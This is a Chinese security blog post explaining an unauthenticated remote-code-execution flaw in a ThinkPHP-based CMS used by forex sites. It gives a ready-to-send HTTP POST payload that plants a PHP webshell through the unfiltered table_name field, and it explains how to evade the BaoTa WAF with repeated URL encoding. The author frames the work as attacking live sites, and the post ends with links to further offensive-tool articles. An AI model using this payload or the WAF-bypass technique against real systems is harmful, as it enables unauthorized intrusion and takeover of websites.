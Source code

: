 #  实战 | 某外汇常用CMS通用未授权RCE   
 橘猫学安全   2024-09-10 18:51  
  
> 某妞子发给我的一个cms，有各种注入，但是网上大部分站点都是用宝塔搭建的，并且开了waf的功能，索性审一个rce直接日下。  
  
  
一般程序是基于ThinkPHP3.1.3进行二次开发的，直接根据特征从Github找了个源代码下来审，注入就不说了，直接看RCE：  
  
Admin/Lib/Action/typeAction.class.php  
```
public function add_save()
{
        $data=pg('data');
        M('classify_type')->data($data)->add();
 
        $sql='
        CREATE TABLE index_'.$data['table_name'].' (
          '.$data['table_name'].'_id int(10) NOT NULL AUTO_INCREMENT,
          type_id int(10) NOT NULL,
          date int(10) NOT NULL,
          title varchar(99) NOT NULL,
          keywords varchar(99) NOT NULL,
          description varchar(10) NOT NULL,
          version_id int(10) NOT NULL,
          PRIMARY KEY ('.$data['table_name'].'_id)
        ) ENGINE=InnoDB DEFAULT CHARSET=utf8;';
        M()->query($sql);
 
        if(!file_exists('Index/Lib/Action/'.$data['table_name'].'Action.class.php'))
        {
            copy('Index/Lib/Action/messageAction.class.php','Index/Lib/Action/'.$data['table_name'].'Action.class.php');
            $content=read_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php');
            $content=str_replace('messageAction',$data['table_name'].'Action',$content);
            write_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php',$content);
            copy_dir('Index/Tpl/message','Index/Tpl/'.$data['table_name']);
        }
 
        echo '操作成功';
    }
```  
  
直接从参数获取data数组，没有任何检验/过滤/认证，后面用了write_file函数，跟进去看看  
  
ThinkPHP/Common/common.php  
```
function write_file($path,$data)
{
    creat_file($path);
    $fp=fopen($path,"w+");
    if(!fwrite($fp,$data))
    {
        return false;
    }
    else
    {
        fclose($fp);
        return true;
    }
}
```  
  
很简单的一个函数，根据参数直接写文件，再回头看看刚才的代码：  
```
write_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php',$content);
```  
  
文件名是php格式，如果$content可控，那就直接RCE了，$content内容是复制Index/Lib/Action/messageAction.class.php的，然后根据指定参数进行替换，先看下代码：  
  
Index/Lib/Action/messageAction.class.php  
```
<?php
class messageAction extends Action {
    public function index(){
        $this->display();
    }
 
    public function details(){
        $this->display();
    }
    public function add_save()
{
        $data = pg('data');
        $type_id = $data['type_id'];
        $classify_id = pg('classify_id');
        $table_name = M('classify_type')->where(array('type_id' => $type_id))->getField('table_name');
        $content = M($table_name)->where(array($table_name.'_id' => $content_id))->select();
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 4))->select();
        foreach($list as $k => $v){
            $data[$v['field_name']]=serialize($data[$v['field_name']]);
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 7))->select();
        foreach($list as $k => $v){
            if(!empty($_FILES[$v['field_name']]['tmp_name'])){
                $data[$v['field_name']] = $this->up_file(array('name' => $v['field_name']));
            }
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 8))->select();
        foreach($list as $k => $v)
        {
            $data[$v['field_name']]=strtotime($data[$v['field_name']]);
        }
 
        $id = M($table_name)->data($data)->add();
        M('relevance')->data(array('classify_id'=> $classify_id, 'content_id' => $id, 'main_id' => 1, 'type_id' => $type_id))->add();
        $this->success('提交成功');
    }
}
```  
  
也就是第二行的messageAction会替换成参数指定的，但是文件名同时也会被修改，所以很多Payload在这边是没办法使用的，然后还有一个宝塔WAF要绕过，直接给Payload：  
```
POST /admin.php?m=type&a=add_save HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 205
Connection: close
Pragma: no-cache
Cache-Control: no-cache
 
data%5Bdate%5D=1606456937&data%5Btype_name%5D=123&data%5Btable_name%5D=abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class &data%5Bpage_name%5D=index

```  
  
大部分的函数在流量就被拦截了，但是他忽略了urlencode，只需要多弄几个urlencode就可以绕过流量了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEIib7YJibiaTL0SXLULYFpGTnI2icqfzE2oyVCgsc4NfTbe6rpDMAPcXYwpIKnDBtQOwUWN0tQxrl5cQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最后建立的文件长这样：  
```
http://www.xxx.com/Index/Lib/Action/abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class Action.class.php
```  
```
<?php
class abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class Action extends Action {
    public function index(){
        $this->display();
    }
 
    public function details(){
        $this->display();
    }
    public function add_save()
{
        $data = pg('data');
        $type_id = $data['type_id'];
        $classify_id = pg('classify_id');
        $table_name = M('classify_type')->where(array('type_id' => $type_id))->getField('table_name');
        $content = M($table_name)->where(array($table_name.'_id' => $content_id))->select();
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 4))->select();
        foreach($list as $k => $v){
            $data[$v['field_name']]=serialize($data[$v['field_name']]);
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 7))->select();
        foreach($list as $k => $v){
            if(!empty($_FILES[$v['field_name']]['tmp_name'])){
                $data[$v['field_name']] = $this->up_file(array('name' => $v['field_name']));
            }
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 8))->select();
        foreach($list as $k => $v)
        {
            $data[$v['field_name']]=strtotime($data[$v['field_name']]);
        }
 
        $id = M($table_name)->data($data)->add();
        M('relevance')->data(array('classify_id'=> $classify_id, 'content_id' => $id, 'main_id' => 1, 'type_id' => $type_id))->add();
        $this->success('提交成功');
    }
}
```  
```
作者：hzllaga
来源：https://wtfsec.org/posts/%e6%9f%90%e5%a4%96%e6%b1%87%e5%b8%b8%e7%94%a8cms%e9%80%9a%e7%94%a8%e6%9c%aa%e6%8e%88%e6%9d%83rce/
```  
  
如有侵权，请联系删除  
  
**推荐阅读**  
  
[实战|记一次奇妙的文件上传getshell](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495718&idx=1&sn=e25bcb693e5a50988f4a7ccd4552c2e2&chksm=c04d7718f73afe0e282c778af8587446ff48cd88422701126b0b21fa7f5027c3cde89e0c3d6d&scene=21#wechat_redirect)  
  
  
[「 超详细 | 分享 」手把手教你如何进行内网渗透](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495694&idx=1&sn=502c812024302566881bad63e01e98cb&chksm=c04d7730f73afe267fd4ef57fb3c74416b20db0ba8e6b03f0c1fd7785348860ccafc15404f24&scene=21#wechat_redirect)  
  
  
[神兵利器 | siusiu-渗透工具管理套件](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495385&idx=1&sn=4d2d8456c27e058a30b147cb7ed51ab1&chksm=c04d69e7f73ae0f11b382cddddb4a07828524a53c0c2987d572967371470a48ad82ae96e7eb1&scene=21#wechat_redirect)  
  
  
[一款功能全面的XSS扫描器](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495361&idx=1&sn=26077792908952c6279deeb2a19ebe37&chksm=c04d69fff73ae0e9f2e03dd8e347f35d660a7fd3d51b0f5e45c8c64afc90c0ee34c4251f9c80&scene=21#wechat_redirect)  
  
  
[实战 | 一次利用哥斯拉马绕过宝塔waf](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495331&idx=1&sn=94b63a0ec82de62191f0911a39b63b7a&chksm=c04d699df73ae08b946e4cf53ceea1bc7591dad0ce18a7ccffed33aa52adccb18b4b1aa78f4c&scene=21#wechat_redirect)  
  
  
[BurpCrypto: 万能网站密码爆破测试工具](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495253&idx=1&sn=d4c46484a44892ef7235342d2763e6be&chksm=c04d696bf73ae07d0c16cff3317f6eb847df2251a9f2332bbe7de56cb92da53b206cd4100210&scene=21#wechat_redirect)  
  
  
[快速筛选真实IP并整理为C段 -- 棱眼](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495199&idx=1&sn=74c00ba76f4f6726107e2820daf7817a&chksm=c04d6921f73ae037efe92e051ac3978068d29e76b09cf5b0b501452693984f96baa9436457e4&scene=21#wechat_redirect)  
  
  
[自动探测端口顺便爆破工具t14m4t](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495141&idx=1&sn=084e8231c0495e91d1bd841e3f43b61c&chksm=c04d6adbf73ae3cdbb0a4cc754f78228772d6899b94d0ea6bb735b4b5ca03c51e7715b43d0af&scene=21#wechat_redirect)  
  
  
[渗透工具｜无状态子域名爆破工具（1秒扫160万个子域）](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495099&idx=1&sn=385764328aff5ec49acddab380721af0&chksm=c04d6a85f73ae393ffab22021839f5baec3802d495c34fb364cbdd9b7cb0cf642851e9527ba7&scene=21#wechat_redirect)  
  
  
  
**查看更多精彩内容，还请关注**  
**橘猫学安全**  
  
  
**每日坚持学习与分享，觉得文章对你有帮助可在底部给点个“**  
**再看”**  
  
